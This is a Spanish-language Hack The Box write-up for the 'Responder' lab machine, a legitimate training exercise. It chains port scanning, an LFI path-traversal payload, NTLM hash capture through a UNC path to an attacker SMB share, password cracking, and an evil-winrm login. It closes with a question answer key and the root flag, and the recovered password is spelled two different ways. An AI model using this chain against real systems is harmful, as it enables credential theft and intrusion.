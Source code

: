 ```yaml
---
title: HTB-Responder
date: 2022-06-19 3:30:00
categories: [Hack The Box, WriteUp]
tag: [Responder, LFI]
img_path: /assets/img/htb/responder
image:
   path: /assets/img/htb/responder/preview1.png
   width: 800
   height: 500
   alt: Responder
---
```


# Responder - HackTheBox

Realizamos un escaneo de `nmap` para identificar los puertos abiertos y servicios.

```console
nmap -v -p- --min-rate 5000 -sV -sC {target ip}
```

Resultado del escaneo:

```console
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-27 15:41 CDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Nmap scan report for 10.129.39.225
Host is up (0.18s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp open  pando-pub?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

NSE: Script Post-scanning.
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.94 seconds
```

Visitamos el servidor web corriendo en el puerto 80 mediante el navegador (Firefox).

![alt](Pasted image 20220427161647.png)
![](Pasted image 20220427161628.png)

Nos redirige a una pagina web llamada **unika.htb**. Debido a que nos encontramos dentro de la misma red que la máquina objetivo y que ese dominio no esta registrado en un servidor DNS, procedemos a agregar la ip y el nombre de dominio al archivo **/etc/hosts** para poder visualizar la pagina web.

![](Pasted image 20220427162215.png)

Ahora ya podemos visualizarla.

![](Pasted image 20220427162345.png)

Navegando por la página nos encontramos con un apartado para cambiar el idioma, si nos fijamos en la url se ve como se incluye un archivo llamado **french.html** mediante **index.php**

![](Pasted image 20220427162745.png)

Vamos a pasarle al parámetro "page" la siguiente cadena para saber si es vulnerable a **LFI** y como consecuencia a **path traversal**.

```console
../../. ./../../../../../windows/system32/drivers/etc/hosts
```

![](Pasted image 20220427163537.png)

![](Pasted image 20220427163432.png)

Como podemos ver existe una vulnerabilidad en esta web.
Regresando al escaneo, el puerto **5985** se encuentra abierto lo que quiere decir que **WinRM** esta disponible. Podemos aprovecharnos del **LFI** de la página web para capturar el **hash NTLM** de la máquina con ayuda de la herramienta **responder**.

Vamos a ejecutar la herramienta con el siguente comando.

```console
sudo responder -I tun0
```
> `tun0` es la interfaz de red de nuestra máquina
{: .prompt-info }

![](Pasted image 20220427170550.png)

Verificamos que el servidor **SMB** este activado.

![](Pasted image 20220427170523.png)

Mientras **responder** esta esperando una conexion, nos dirigimos a la URL de la página web e ingresamos la siguiente cadena en el parámetro page.

```console
//{our machine ip}/somefile
```
Esto para que la página incluya un "recurso" de nuestro servidor **SMB** y se establezca una conexión.

![](Pasted image 20220427171130.png)

Vemos en la terminal que se ha capturado el **hash NTLM**.

![](Pasted image 20220427171250.png)

Guardamos el hash en un archivo de texto y lo desciframos con ayuda de la herramienta **John The Ripper** .

![](Pasted image 20220427171705.png)

```console
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

![](Pasted image 20220427172056.png)

A continuación utilizamos la herramienta **evilwinrm** para autenticarnos en el sistema con las credenciales obtenidas.

```console
evil-winrm -i {target ip} -u administrator -p badminton
```

![](Pasted image 20220427172504.png)

Ahora solo queda buscar el archivo ==flag.txt==. Este se encuentra en la ruta `C:\Users\mike\Desktop`.

![](Pasted image 20220427172844.png)

## Preguntas

1. ¿Cuántos puertos TCP están abiertos en la máquina?
   **3**

2. Al visitar el servicio web utilizando la dirección IP, ¿cuál es el dominio al que se nos redirige?
   **unika.htb**

3. ¿Qué lenguaje de secuencias de comandos se utiliza en el servidor para generar páginas web?
   **php**

4. ¿Cuál es el nombre del parámetro de URL que se usa para cargar diferentes versiones de idioma de la página web?
   **page**

5. ¿Cuál de los siguientes valores para el parámetro `page` sería un ejemplo de explotación de una vulnerabilidad de inclusión de archivo local (LFI): "french.html", "//10.10.14.6/somefile", "../../. ./../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"
   **../../. ./../../../../../windows/system32/drivers/etc/hosts**

6. ¿Qué significa NTLM?
   **New Technology LAN Manager**

7. ¿Qué indicador usamos en la utilidad Responder para especificar la interfaz de red?
   **-I**

8. Hay varias herramientas que aceptan un desafío/respuesta de NetNTLMv2 y prueban millones de contraseñas para ver si alguna de ellas genera la misma respuesta. A una de estas herramientas se la suele denominar `john`, pero el nombre completo es ¿cuál?.
   **John The Ripper**

9. ¿Cuál es la contraseña para el usuario administrador?
   **batminton**

10. Usaremos un servicio de Windows (es decir, que se ejecuta en la caja) para acceder de forma remota a la máquina Responder usando la contraseña que recuperamos. ¿En qué puerto TCP escucha?
    **5985**

Root Flag:
**ea81b7afddd03efaa0945333ed147fac**

![](Pasted image 20220427134218.png)
